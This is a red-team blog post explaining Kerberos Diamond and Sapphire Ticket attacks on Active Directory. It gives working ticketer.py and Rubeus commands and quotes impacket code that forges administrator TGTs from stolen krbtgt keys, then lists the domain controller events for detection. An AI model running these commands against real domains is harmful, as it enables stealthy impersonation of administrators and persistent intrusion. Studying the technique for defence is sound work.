









---

layout: post
title: Diamond And Sapphire Tickets
lang: en
lang-ref: diamonds-sapphire-tickets
categories: [Windows security]
tags: [windows, cybersecurity, kerberos, red team, pentesting]

---

# Kerberos Diamond and Sapphire Tickets

As you may known, one of the approaches for persistence in a Windows Active Directory are the well-known techniques Golden Ticket and Silver Ticket. In the post-explotation phase, once you have enough privilege in a DC you could dump *ntds.dit* and get *krbtgt* Kerberos Keys. As you know, its Kerberos keys are used for encrypting TGTs and signing PAC. So, having them it is possible to craft any TGT and/or PAC. Having Kerberos keys of some SPN allows us to forge STs for that service.

The problem about Golden and Silver Tickets is that they are easily detectable. Once the KDC/service receives a TGT/ST it and logs are received in your SIEM it is easy to detect and alert that this TGT/ST was not actually created by the KDC. So, Monitoring Solutions will easy catch Golden and Silver Tickets.

# Diamond Ticket

Andrew Schwartz at TrustedSec and Charlie Clark at Semperis ([https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/](https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/)) invented a variation of Diamond PAC attack. The idea is simple, if you know *krbtgt* Kerberos keys just request any TGT and modify the PAC by demand (re-encrypting and re-signing it).

Ticketer and Rubeus can perform this attack.

```bash
ticketer.py -request -domain 'DOMAIN.FQDN' -user 'domain_user' -password 'password' -nthash 'krbtgt/service NT hash' -aesKey 'krbtgt/service AES key' -domain-sid 'S-1-5-21-...' -user-id '1337' -groups '512,513,518,519,520' 'baduser'
```

```cmd
Rubeus.exe diamond /domain:DOMAIN /user:USER /password:PASSWORD /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /ticketuserid:USER_ID /groups:GROUP_IDS
```

This technique is more stealthy because te TGT is real, it was created by the KDC but only the PAC was modified. Although this approach is more stealthy it will be detected by monitoring solutions too.

# Sapphire Ticket

One brand new technique is Sapphire Ticket. Created by [Charlie Shutdown](https://twitter.com/_nwodtuhs) this approach is more stealthy. You can create a TGT impersonating any user assembling real TGT and real PAC combining S4U2Self + U2U. This new technique attracted my attention and I wanted to study and show how it works under the hood.

He extended Ticketer from Impacket to add this attack.

```bash
ticketer.py -request -impersonate 'domainadmin' -domain 'DOMAIN.FQDN' -user 'domain_user' -password 'password' -aesKey 'krbtgt AES key' -domain-sid 'S-1-5-21-...' 'ignored'
```

Required arguments *-domain-sid* and (common) impersonate user param will be ignored.

## Technical Details

Sapphire Tickets technique is based in the S4U2Self + U2U trick. Using U2U is possible to request S4U2Self without having a SPN. S4U2Self is one of the messages in the S4U protocol extension. S4U2Self allows to obtainer a ticket in behalf of another user to itself. Imagine a service with Kerberos Constrained Delegation Enabled, but a user authenticates to it using NTLM. The Service cannot delegate the user to another service because it does not have the ST of the user. In that scenario, the service send to the KDC a KRB_TGS_REQ requesting a ST of that user to itself. So, the service now has a ST to itself with the user authentication information.

So the idea is: We request S4U2Self, getting ST to us as if the user has authenticated versus us. This ST has the user's PAC. So, we have his PAC because we can decrypt it using *krbtgt* Kerberos keys. We can now modify the PAC of and existing TGT and re-encrypt and re-sign it with *krbtgt* Kerberos keys. The idea is that simple.

## U2U

Imagine that a user wants to offer some service in his Desktop Machine. Because it is not a Server Machine we should presuppose that is more exposed to, for example, network attacks, not hardened, etc. We should consider it less secure definitly and can not contain a Service Key. Giving that scenario the Kerberos 5 specification brought a new idea. Basically, U2U goes about giving a user the possibility to host a service without actually being a service or having a principal, thus not having to responsability to store a long-lived master key. That way, the KDC is again responsible of storing "master" keys and the user can deliver its desired service. The idea is that two users could authenticate themselves and derive a common session key.

Let's say there are two users: User A, acting as server, and User B, acting as client.

User A, the server, could give User B his TGT. Because User B does not know Kerberos Session Key of User A, he cannot impersonate User A in the realm actually. User B goes to the KDC and asks for U2U, givin both tickets, User A and User B tickets.

The KDC will generate a new session key, encrypt it twice, once with the session key of User A and the other one with the session key of User B. Finally, both users can use the newly generated session key decrypting it, each with its session key. That way, User A and User B had authenticated themselves and derived the new session key that they can use to provide confidentiality and/or integrity to whatever secure channel the will use. The User A does not expose any "master" credential in his desktop machine, only the short-lived session key.

A diagram about the process.


[](../../assets/img/diamond-sapphire-tickets/u2u_1.png){:target="\_blank"}

[](../../assets/img/diamond-sapphire-tickets/u2u_2.png){:target="\_blank"}

[](../../assets/img/diamond-sapphire-tickets/u2u_3.png){:target="\_blank"}

[](../../assets/img/diamond-sapphire-tickets/u2u_4.png){:target="\_blank"}

But this is the theory defined in Kerberos 5 protocol specification. Take a look at [http://www.di-srv.unisa.it/~ads/corso-security/www/CORSO-0001/kerberos/ref/kerberos-faq.html#u2uauth](http://www.di-srv.unisa.it/~ads/corso-security/www/CORSO-0001/kerberos/ref/kerberos-faq.html#u2uauth).

**To summarize**, instead of specifying an SPN, we indicate the KDC to use the Session Key of a User. For that, we embed his TGT and spcify its Name in the Service Name.

### Windows Implementation

Finally, how is U2U implementad (at least) in Windows? I have not tested another implementations.

[](../../assets/img/diamond-sapphire-tickets/windows_icon.png){:target="\_blank"}

The implementation, as defined here [https://datatracker.ietf.org/doc/html/draft-ietf-cat-user2user-01](https://datatracker.ietf.org/doc/html/draft-ietf-cat-user2user-01), specifies that the option **ENC-TKT-IN-SKEY** has to be specified and an additional ticket has to be included in the TGS-REQ.

An example showing this at network level:

[](../../assets/img/diamond-sapphire-tickets/prac4.png){:target="\_blank"}

We can take a look at the modified version of *ticketer.py* by [Charlie Shutdown](https://twitter.com/_nwodtuhs), to see how this option and the additional ticket is included.

Lines 491 and 507.

[https://github.com/ShutdownRepo/impacket/blob/sapphire-tickets/examples/ticketer.py#L491](https://github.com/ShutdownRepo/impacket/blob/sapphire-tickets/examples/ticketer.py#L491)
[https://github.com/ShutdownRepo/impacket/blob/sapphire-tickets/examples/ticketer.py#L507](https://github.com/ShutdownRepo/impacket/blob/sapphire-tickets/examples/ticketer.py#L507)

## S4U2Self

In the S4U Kerberos Extension, S4U2Self permits a service getting a Service Ticket to itself on behalf of the user. Basically, that is a Service Ticket as is the user would have authenticated to the service requesting S4U2Self. To request S4U2Self the account has to have at least one Service Principal Name.

Using *paDATA pA-FOR-USER* we can request S4U2Self.

## Putting all together

Thus, the idea is: we authenticate in the domain with any account, request S4U2Self, but, we are not a service (I mean, we do not have an SPN). At the Service Name we specify the user that we have use to authenticate, performing U2U. The result is that the KDC will generate a Service Ticket to us on behalft of the user. Now, we have the PAC of the target user :).

## Practical Example

We are at the post phase and we have The Kerberos (krbtgt) Keys.

Using *ticketer* like above we request a Sapphire Ticket.

```bash
python3 ./ticketer.py -request -impersonate 'administrator' -domain 'contoso.local' -user 'emp.1' -password '1234' -aesKey '0c83d045c7428f2fee556ba0bbdf0109b3e39d38104b415fd91def363910b4b2' -domain-sid 'S-1-5-21-877380313-3945528518-819751691' 'ignored'
```

[](../../assets/img/diamond-sapphire-tickets/prac1.png){:target="\_blank"}

If we take a look at the ticket we can see that we have had a ticket that has the PAC of the request to impersonate, Administrator.

[](../../assets/img/diamond-sapphire-tickets/prac2_1.png){:target="\_blank"}
[](../../assets/img/diamond-sapphire-tickets/prac2_2.png){:target="\_blank"}

But this ticket is "real". For real I mean that we have not crafted the ticket totally offline. What happened under the hood is that we authenticated in the domain with the user *emp.1*.

[](../../assets/img/diamond-sapphire-tickets/prac3.png){:target="\_blank"}

And later, in the S4U2Self+U2U we specified the username to get a service ticket for, *administr*ator*, plus we requested the service ticket for a user (to ourselves), performing *U2U*.

So the KDC gave us a Service Ticket encrypted with our Kerberos Key, *emp.1*. We can decrypt the ST, get the PAC. Then, in our TGT, modify the PAC with the administrator PAC we obtained before and re-encrypt and re-sign it. The adventage is that we crafted a TGT for the administrator user using previous "things" generated by the KDC.

[](../../assets/img/diamond-sapphire-tickets/meme.jpeg){:target="\_blank"}

Looking at the [code](https://github.com/ShutdownRepo/impacket/blob/sapphire-tickets/examples/ticketer.py#L518) of [Charlie Shutdown](https://twitter.com/_nwodtuhs) with his extension of *Ticketer*.

We can see how he extracts the PAC.

```python
[...]
# 1. S4U2Self + U2U
            logging.info('\tRequesting S4U2self+U2U to obtain %s\'s PAC' % self.__options.impersonate)
            tgs, cipher, oldSessionKey, sessionKey = self.getKerberosS4U2SelfU2U()

            # 2. extract PAC
            logging.info('\tDecrypting ticket & extracting PAC')
            decodedTicket = decoder.decode(tgs, asn1Spec=TGS_REP())[0]
            cipherText = decodedTicket['ticket']['enc-part']['cipher']
            newCipher = _enctype_table[int(decodedTicket['ticket']['enc-part']['etype'])]
            plainText = newCipher.decrypt(self.__tgt_session_key, 2, cipherText)
            encTicketPart = decoder.decode(plainText, asn1Spec=EncTicketPart())[0]
[...]            
```

And that PAC of the TGT we already have is (almost) changed like always in *Ticketer* with the new PAC obtained from S4U2Self+U2U by updating *pacInfos*.

Additionally, some flags are always set: Forwadable, Proxiable, Renewable, Pre-Authent

```python
[...]
            # 2. extract PAC
            logging.info('\tDecrypting ticket & extracting PAC')
            decodedTicket = decoder.decode(tgs, asn1Spec=TGS_REP())[0]
            cipherText = decodedTicket['ticket']['enc-part']['cipher']
            newCipher = _enctype_table[int(decodedTicket['ticket']['enc-part']['etype'])]
            plainText = newCipher.decrypt(self.__tgt_session_key, 2, cipherText)
            encTicketPart = decoder.decode(plainText, asn1Spec=EncTicketPart())[0]

            # Let's extend the ticket's validity a lil bit
            # I don't think this part should be left in the code. The whole point of doing a sapphire ticket is stealth, extending ticket duration is not the way to go
            # encTicketPart['endtime'] = KerberosTime.to_asn1(ticketDuration)
            # encTicketPart['renew-till'] = KerberosTime.to_asn1(ticketDuration)

            # Opening PAC
            adIfRelevant = decoder.decode(encTicketPart['authorization-data'][0]['ad-data'], asn1Spec=AD_IF_RELEVANT())[0]
            pacType = pac.PACTYPE(adIfRelevant[0]['ad-data'].asOctets())
            pacInfos = dict()
            buff = pacType['Buffers']

            # clearing the signatures so that we can sign&encrypt later on
            logging.info("\tClearing signatures")
            for bufferN in range(pacType['cBuffers']):
                infoBuffer = pac.PAC_INFO_BUFFER(buff)
                data = pacType['Buffers'][infoBuffer['Offset'] - 8:][:infoBuffer['cbBufferSize']]
                buff = buff[len(infoBuffer):]
                if infoBuffer['ulType'] in [PAC_SERVER_CHECKSUM, PAC_PRIVSVR_CHECKSUM]:
                    checksum = PAC_SIGNATURE_DATA(data)
                    if checksum['SignatureType'] == ChecksumTypes.hmac_sha1_96_aes256.value:
                        checksum['Signature'] = '\x00' * 12
                    elif checksum['SignatureType'] == ChecksumTypes.hmac_sha1_96_aes128.value:
                        checksum['Signature'] = '\x00' * 12
                    else:
                        checksum['Signature'] = '\x00' * 16
                    pacInfos[infoBuffer['ulType']] = checksum.getData()
                else:
                    pacInfos[infoBuffer['ulType']] = data
[...]
newFlags = [TicketFlags.forwardable.value, TicketFlags.proxiable.value, TicketFlags.renewable.value, TicketFlags.pre_authent.value]
[...]
else:
            encTicketPart = EncTicketPart()

            flags = list()
            flags.append(TicketFlags.forwardable.value)
            flags.append(TicketFlags.proxiable.value)
            flags.append(TicketFlags.renewable.value)
            if self.__domain == self.__server:
                flags.append(TicketFlags.initial.value)
            flags.append(TicketFlags.pre_authent.value)
            encTicketPart['flags'] = encodeFlags(flags)
            encTicketPart['key'] = noValue
            encTicketPart['key']['keytype'] = kdcRep['ticket']['enc-part']['etype']

            if encTicketPart['key']['keytype'] == EncryptionTypes.aes128_cts_hmac_sha1_96.value:
                encTicketPart['key']['keyvalue'] = ''.join([random.choice(string.ascii_letters) for _ in range(16)])
            elif encTicketPart['key']['keytype'] == EncryptionTypes.aes256_cts_hmac_sha1_96.value:
                encTicketPart['key']['keyvalue'] = ''.join([random.choice(string.ascii_letters) for _ in range(32)])
            else:
                encTicketPart['key']['keyvalue'] = ''.join([random.choice(string.ascii_letters) for _ in range(16)])

            encTicketPart['crealm'] = self.__domain.upper()
            encTicketPart['cname'] = noValue
            encTicketPart['cname']['name-type'] = PrincipalNameType.NT_PRINCIPAL.value
            encTicketPart['cname']['name-string'] = noValue
            encTicketPart['cname']['name-string'][0] = self.__target

            encTicketPart['transited'] = noValue
            encTicketPart['transited']['tr-type'] = 0
            encTicketPart['transited']['contents'] = ''
            encTicketPart['authtime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
            encTicketPart['starttime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
            # Let's extend the ticket's validity a lil bit
            encTicketPart['endtime'] = KerberosTime.to_asn1(ticketDuration)
            encTicketPart['renew-till'] = KerberosTime.to_asn1(ticketDuration)
            encTicketPart['authorization-data'] = noValue
            encTicketPart['authorization-data'][0] = noValue
            encTicketPart['authorization-data'][0]['ad-type'] = AuthorizationDataType.AD_IF_RELEVANT.value
            encTicketPart['authorization-data'][0]['ad-data'] = noValue
[...]
```

# Events

The DC generates the following events.

Firt the authentication one because of AS_REQ, Event ID **4768**.

```
A Kerberos authentication ticket (TGT) was requested.

Account Information:
	Account Name:		Administrator
	Supplied Realm Name:	CONTOSO
	User ID:			CONTOSO\Administrator

Service Information:
	Service Name:		krbtgt
	Service ID:		CONTOSO\krbtgt

Network Information:
	Client Address:		::1
	Client Port:		0

Additional Information:
	Ticket Options:		0x40810010
	Result Code:		0x0
	Ticket Encryption Type:	0x12
	Pre-Authentication Type:	2

Certificate Information:
	Certificate Issuer Name:		
	Certificate Serial Number:	
	Certificate Thumbprint:		

Certificate information is only provided if a certificate was used for pre-authentication.

Pre-authentication types, ticket options, encryption types and result codes are defined in RFC 4120.
```

And it is followed inmediatly by a Event ID **4769** because TGS_REQ using S42Self+U2U is inmediately performed to request the ST.

```
A Kerberos service ticket was requested.

Account Information:
	Account Name:		Administrator@CONTOSO.LOCAL
	Account Domain:		CONTOSO.LOCAL
	Logon GUID:		{1d74b519-9c12-df9d-0834-823dc4d8e26b}

Service Information:
	Service Name:		DC-01$
	Service ID:		CONTOSO\DC-01$

Network Information:
	Client Address:		::1
	Client Port:		0

Additional Information:
	Ticket Options:		0x40810000
	Ticket Encryption Type:	0x12
	Failure Code:		0x0
	Transited Services:	-

This event is generated every time access is requested to a resource such as a computer or a Windows service.  The service name indicates the resource to which access was requested.

This event can be correlated with Windows logon events by comparing the Logon GUID fields in each event.  The logon event occurs on the machine that was accessed, which is often a different machine than the domain controller which issued the service ticket.

Ticket options, encryption types, and failure codes are defined in RFC 4120.
```

As you can see, the account is Administrator and the service is the computer account of the KDC. Remeber that we did not specified a SPN, we used a Username in the *sname* field.

Now, blue teamers investigate more and create a Sigma Rule :P

# References:

1. [https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/](https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/)
2. [https://learn.microsoft.com/es-es/openspecs/windows_protocols/ms-kile/2a32282e-dd48-4ad9-a542-609804b02cc9](https://learn.microsoft.com/es-es/openspecs/windows_protocols/ms-kile/2a32282e-dd48-4ad9-a542-609804b02cc9)
3. [https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/dd302fd1-0aa7-406b-ad91-2a6b35738557](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/dd302fd1-0aa7-406b-ad91-2a6b35738557)
4. [https://github.com/ShutdownRepo/The-Hacker-Recipes/blob/master/ad/movement/kerberos/forged-tickets/diamond.md](https://github.com/ShutdownRepo/The-Hacker-Recipes/blob/master/ad/movement/kerberos/forged-tickets/diamond.md)
5. [https://github.com/ShutdownRepo/The-Hacker-Recipes/blob/master/ad/movement/kerberos/forged-tickets/sapphire.md](https://github.com/ShutdownRepo/The-Hacker-Recipes/blob/master/ad/movement/kerberos/forged-tickets/sapphire.md)
6. [https://github.com/SecureAuthCorp/impacket/pull/1411](https://github.com/SecureAuthCorp/impacket/pull/1411)
7. [https://github.com/ShutdownRepo/impacket/blob/sapphire-tickets/examples/ticketer.py#L518](https://github.com/ShutdownRepo/impacket/blob/sapphire-tickets/examples/ticketer.py#L518)
8. [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/kerberos#decrypt-krb5-traffic](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/kerberos#decrypt-krb5-traffic)
9. [https://medium.com/tenable-techblog/decrypt-encrypted-stub-data-in-wireshark-deb132c076e7](https://medium.com/tenable-techblog/decrypt-encrypted-stub-data-in-wireshark-deb132c076e7)
10. [https://www.tarlogic.com/es/blog/como-funciona-kerberos/](https://www.tarlogic.com/es/blog/como-funciona-kerberos/)
11. [https://www.thehacker.recipes/ad/movement/kerberos](https://www.thehacker.recipes/ad/movement/kerberos)
12. [http://www.di-srv.unisa.it/~ads/corso-security/www/CORSO-0001/kerberos/ref/kerberos-faq.html#u2uauth](http://www.di-srv.unisa.it/~ads/corso-security/www/CORSO-0001/kerberos/ref/kerberos-faq.html#u2uauth)
13. [https://twitter.com/snovvcrash/status/1576640678410432512]( https://twitter.com/snovvcrash/status/1576640678410432512)
14. [https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13)
15. [https://medium.com/@robert.broeckelmann/kerberos-wireshark-captures-a-windows-login-example-151fabf3375a](https://medium.com/@robert.broeckelmann/kerberos-wireshark-captures-a-windows-login-example-151fabf3375a)


